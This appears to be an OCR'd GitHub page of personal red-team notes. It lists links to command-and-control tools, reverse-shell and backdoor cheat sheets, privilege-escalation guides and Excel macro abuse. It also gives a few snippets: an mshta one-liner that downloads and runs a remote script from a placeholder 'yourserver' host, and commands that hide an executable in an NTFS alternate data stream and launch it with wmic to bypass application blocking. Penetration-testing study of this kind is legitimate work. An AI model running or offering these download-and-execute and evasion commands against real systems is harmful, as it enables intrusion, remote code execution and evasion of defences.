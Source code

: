 # DNSCAT2

This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.

https://github.com/iagox86/dnscat2

# DeathStar

--> Automated AD Common exploits for domain admin

https://github.com/byt3bl33d3r/DeathStar

# Reverse Shells For Windows

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

# One liners to brute force web services

https://book.hacktricks.xyz/brute-force

# Some Backdoors

https://github.com/hackerhouse-opensource/backdoors

# Checklist Local Windows Priv Esc:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

# Priv Esc Tips:
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#system-info

# PenTesting Tools Cheatsheet:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/

# Windows Enable RDP via registry


![image](https://user-images.githubusercontent.com/97367610/149876284-ee972425-ea00-45c9-80af-4ebef8c70f37.png)


# Run VB Script with Mshta (works)

--> Commands are separated by ":"
--> Strings have a double ""

```

mshta vbscript:Execute("MsgBox(""Hello""):MsgBox(""Strings"")(window.close)")

#Download and execute a ".sct" script
 mshta vbscript:Close(Execute("GetObject(""script:http://yourserver/thing.sct"")"))



```



# Alternate Data Streams (Hide sh*t)


https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

The Dude just ran **sysinternals access check** to find open permissions on a windows box and then
used ADS to inject an executable/Script into them, this usally bypasses Application blocking...

**If you format a flash drive as NTFS, you can move files with ADS across windows systems**

```

echo "Hello World" > a.txt
type C:\Tank.exe > C:\Temp\a.txt:Tank.exe
wmic process call create 'C:\Temp\a.txt:Tank.exe'

```


# Regsvr32 exploit 

(This doesn't seem to work on current versions of Windows, could have done it wrong however)

https://www.varonis.com/blog/living-of-the-land-lol-with-microsoft-tools-part-i-intro-to-regsvr/


# Shodan Guide

https://community.turgensec.com/shodan-pentesting-guide/


# using ctor for lol tech:
http://www.hexacorn.com/blog/2020/01/24/how-to-be-a-bad-ctor/


# Reverse Shell CheatSheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/


# Disable Auto logoff for ssh session (normally and through hacking means)
https://www.ostechnix.com/auto-logout-inactive-users-period-time-linux/

https://stackoverflow.com/questions/17397069/unset-readonly-variable-in-bash

# SYLK Macros (Excel)
https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format/


# XLM Macros (Excel)
https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/


# Some Ports to block from outside internet:

![image](https://user-images.githubusercontent.com/97367610/149877245-034e110d-40b0-4429-9e2b-8cd074bd0c34.png)


# Best Places to Put UNC Paths:
```
https://blog.netspi.com/10-places-to-stick-your-unc-path/
```
